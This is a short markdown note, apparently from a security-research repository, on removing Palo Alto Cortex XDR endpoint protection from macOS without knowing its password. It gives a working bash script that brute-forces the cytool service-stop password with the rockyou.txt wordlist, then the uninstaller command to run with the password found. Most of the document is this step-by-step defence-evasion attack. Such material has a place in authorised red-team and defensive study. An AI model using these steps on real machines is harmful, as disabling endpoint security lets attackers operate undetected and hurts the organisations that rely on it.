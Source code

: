 # MacOS - Uninstall Cortex XDR without know password
## Source
https://0xsp.com/security%20research%20%20development%20srd/combined-attacks-against-xdr/
https://mrd0x.com/cortex-xdr-analysis-and-bypass/
## Objective
Try to find the password for stop the service and uninstall Cortex XDR, with force brute attack.
## Prerequisits
Admin passwords in MacOS.
Download rockyou.txt password list.
## Funding the password
Run the script with admin privileges(sudo):
```bash=
#!/bin/bash

FILENAME="rockyou.txt"

LINES=$(cat $FILENAME)

for LINE in $LINES
do
	echo "Trying Password: $LINE"
	(echo "$LINE" | /Library/Application\ Support/PaloAltoNetworks/Traps/bin/cytool runtime stop all) 2>/dev/null && echo "Password found: $LINE" && exit 0
done
```
## Uninstalling Cortex XDR
Execute:
```bash=
sudo /Library/Application\ Support/PaloAltoNetworks/Traps/bin/traps_uninstaller_tool <the password found>
```
